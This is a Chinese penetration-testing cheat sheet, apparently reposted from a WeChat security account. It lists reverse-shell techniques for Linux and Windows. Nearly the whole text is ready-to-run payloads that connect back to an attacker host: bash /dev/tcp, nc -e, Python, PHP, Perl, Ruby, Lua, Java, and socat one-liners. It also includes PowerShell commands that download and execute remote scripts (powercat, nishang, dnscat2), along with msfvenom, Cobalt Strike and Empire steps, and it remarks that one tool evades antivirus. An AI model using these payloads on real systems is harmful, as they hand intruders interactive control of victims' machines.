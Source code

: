 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/uHSDdwYNh\_Of1lRSRXy6Vw)

> **来自公众号：Bypass**

在渗透过程中，往往因为端口限制而无法直连目标机器，此时需要通过反弹 shell 来获取一个交互式 shell，以便继续深入。  

反弹 shell 是打开内网通道的第一步，也是权限提升过程中至关重要的一步。本文所有姿势整理自网络，并基于同一个假设的前提下完成测试和验证。（假设：攻击者主机为：192.168.99.242，本地监听 1234 端口，如有特殊情况以下会备注说明。）

**Linux 反弹 shell**  

**姿势一：bash 反弹**

```
bash -i >& /dev/tcp/192.168.99.242/1234 0>&1

base64版：bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjI0Mi8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html
```

其他版本：

```
exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5;done
exec /bin/sh 0</dev/tcp/192.168.99.242/1234 1>&0 2>&0
```

**姿势二：nc 反弹**

```
nc -e /bin/bash 192.168.99.242 1234
```

**姿势三：awk 反弹**

```
awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

**姿势四：telnet 反弹**

备注：需要在攻击主机上分别监听 1234 和 4321 端口，执行反弹 shell 命令后，在 1234 终端输入命令，4321 查看命令执行后的结果。

```
telnet 192.168.99.242 1234 | /bin/bash | telnet 192.168.99.242 4321
```

**姿势五：socat 反弹**

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.99.242:1234
```

**姿势六：Python 反弹**

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(('192.168.99.242',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\['/bin/bash','-i'\]);"
```

**姿势七：PHP 反弹**

```
php -r '$sock=fsockopen("192.168.99.242",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**姿势八：Perl 反弹**

```
perl -e 'use Socket;$i="192.168.99.242";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**姿势九：Ruby 反弹**

```
ruby -rsocket -e'f=TCPSocket.open("192.168.99.242",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

**姿势十：Lua 反弹**

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('192.168.99.242','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

**姿势十一：JAVA 反弹**

```
public class Revs {
    /\*\*
    \* @param args
    \* @throws Exception 
    \*/
public static void main(String\[\] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd\[\]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

保存为 Revs.java 文件，编译执行，成功反弹 shell。

```
javac Revs.java 
java Revs
```

**姿势一：nc 反弹**

```
netcat 下载：https://eternallybored.org/misc/netcat/
服务端反弹：nc 192.168.99.242 1234 -e c:\\windows\\system32\\cmd.exe
```

**姿势二：powershell 反弹**

powercat 是 netcat 的 powershell 版本，功能免杀性都要比 netcat 好用的多。

```
PS C:\\WWW>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.99.242 -p 1234 -e cmd
```

下载到目标机器本地执行：

```
PS C:\\WWW> Import-Module ./powercat.ps1
PS C:\\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
```

**姿势三：MSF 反弹 shell**

使用 msfvenom 生成相关 Payload

```
msfvenom -l payloads | grep 'cmd/windows/reverse'
msfvenom -p cmd/windows/reverse\_powershell LHOST=192.168.99.242 LPORT=1234
```

**姿势四：Cobalt strike 反弹 shell**

```
1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add。
2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置。
3、目标机执行powershell payload
```

**姿势五：Empire 反弹 shell**

```
usestager windows/launcher\_vbs
info
set Listener test
execute
```

**姿势六：nishang 反弹 shell**

Reverse TCP shell：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com /samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.1.1.210 -port 1234
```

Reverse UDP shell：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');
Invoke-PowerShellUdp -Reverse -IPAddress 10.1.1.210 -port 1234
```

**姿势七：Dnscat 反弹 shell**

github 项目地址：

```
https://github.com/iagox86/dnscat2
```

`服务端：  
`

```
ruby dnscat2.rb --dns "domain=lltest.com,host=xx.xx.xx.xx" --no-cache -e open -e open
```

`目标主机：  
`

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain lltest.com -DNSServer xx.xx.xx.xx
```

```
●输入m获取文章目录

推荐↓↓↓

Linux学习
```